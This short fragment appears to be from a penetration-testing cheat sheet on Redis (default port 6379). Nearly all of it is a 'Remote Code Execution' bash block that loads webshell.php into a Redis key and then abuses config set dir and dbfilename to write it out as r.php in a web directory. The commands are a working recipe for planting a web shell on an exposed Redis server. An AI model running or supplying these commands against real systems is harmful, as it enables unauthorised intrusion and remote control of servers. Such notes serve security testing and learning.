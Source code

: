 Default [[port 6379]]

---

Remote Code Execution:

```bash
cat webshell.php | redis-cli -h localhost -x set r
redis-cli -h localhost config set dir /path/to/save/
redis-cli -h localhost config set dbfilename "r.php"
redis-cli -h localhost save
```

---